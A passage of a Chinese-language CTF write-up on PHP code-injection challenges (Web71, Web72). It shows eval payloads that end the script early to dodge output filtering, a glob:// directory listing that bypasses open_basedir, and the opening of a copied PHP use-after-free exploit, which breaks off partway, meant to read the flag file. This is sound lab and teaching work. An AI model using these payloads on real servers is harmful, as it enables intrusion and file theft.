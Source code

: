 审计代码，$s = ob_get_contents()用于得到缓冲区的数据。

但ob_end_clean()会清除缓冲区的内容，并将缓冲区关闭，不会输出内容。正则匹配会将缓冲区的数字和字母全部替换成？

可以利用死亡函数，将程序提前结束，不进行正则匹配

payload：

c=var_export(scandir("/")); die();

或

c=var_export(scandir("/")); exit();

c=include("/flag.txt"); exit();

Web72：

题目附件得到的源码和71一样。

输入c=var_export(scandir("/")); die();

得到回显：Warning: scandir(): open_basedir restriction in effect. File(/) is not within the allowed path(s): (/var/www/html/) in /var/www/html/index.php(19) : eval()'d code on line 1

输入：c=var_export(scandir("./")); die();得到正常的数组回显

发现开启了open_basedir，且仅允许访问/var/www/html/目录及其子目录

//open_basedir是php.ini中的一个配置选项，它可将用户访问文件的活动范围限制在指定的区域

因为glob伪协议在筛选目录时不受open_basedir制约，所以可以利用glob://来读取目录

//glob://基本用法：

```php
$a = opendir("glob:///\*");// 用glob打开根目录

while (($file = readdir($a)) !== false) {

  echo $file . "<br>";

};//遍历目录，并输出子目录名和html的换行符

exit();// 终止脚本,跳过正则匹配替换
```

payload：

```
c=$a=opendir("glob:///*"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };exit();
```

根据回显，发现flag在flag0.txt中

根据提示，在网上找了个uaf的脚本，执行ls；cat/flag0.txt命令

将脚本进行url编码后得到payload，bp上传即可得到flag

脚本：

```php
c=?><?php

pwn("ls /;cat /flag0.txt");

 

function pwn($cmd) {

  global $abc, $helper, $backtrace;

  class Vuln {

​    public $a;
```